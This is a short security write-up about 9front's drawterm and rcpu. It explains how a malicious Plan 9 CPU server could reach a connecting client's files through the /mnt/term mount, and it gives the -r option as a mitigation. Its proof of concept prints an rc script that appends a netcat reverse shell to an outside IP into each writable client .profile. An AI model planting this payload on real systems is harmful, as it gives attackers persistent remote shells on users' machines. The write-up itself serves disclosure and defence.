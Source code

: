 **Background**<br />
While there are SSH clients in Plan 9, connecting to a Plan 9 machine in a way that allows you to run programs on that system (like an SSH connection) is typically done via drawterm (for Windows, Linux, OS X, etc) or rcpu (for other Plan 9 machines). One notable difference is the mount to “/mnt/term/” that will appear on the remote Plan 9 server. This usually consists of a mount to the (default root) file-system of the client, and allows easy transfers of files between the server and client.

The “/mnt/term/” mount is done in the name-space of the running connections, and the mount to the and individual client’s file-system would not be available to other connected clients. However, if an account was compromised, or a user was tricked into connecting to an malicious CPU server, a lib/profile (or a compromised executable called by lib/profile) could be crafted that would have access to the clients file-system in the context of the connecting user.

**Proof of Concept**<br />
Below is just one example on how this feature can be weaponized. The example code is targeted to a connecting Linux client. But it could be expanded to and supported drawterm client OS or Plan 9 (in case or rcpu).

    cpu% cat lib/profile
    bind -a $home/bin/rc /bin
    ...
    for (i in `{ls /mnt/term/home/}) {
       if ( test -w $i/.profile ) {
  	      echo 'nc 192.168.1.222 4444 -c /bin/sh &' >> $i/.profile
        }
    }

When a user logs into this account, the below code will step through the connected clients local desktop file-system via the mnt/term mount, appending a reverse shell to whatever .profile the connecting user has write access too. The reverse shell will then be run at the next login.

**Mitigation**<br />
Users of the 9front’s drawterm can mitigate this issue with the “-r” option, which allows users to specify the root of a local file-system to be mounted:

    /opt/drawterm/drawterm -a 9front.lan -h 9front.lan -u glenda -r /home/jgstratton/plan9/

I believe the default behavior of 9front’s drawterm shouldn’t mount “/” by default. It should either force user to use the “-r” option if they want this behavior, or maybe create a custom directory in /tmp/ for use in drawterm’s name-space. However: 
1. There are historic/Plan 9 reasons for this “/mnt/term”.
1. “Plan 9” isn't really targeted by malicious people.
1. The issue can be dealt with with the “-r” option.
1. To exploit, an account must already be compromised or a user tricked into connecting into an account that has been constructed for this.

So, in short, I don’t see it as a huge issue. Just something to keep in mind. 
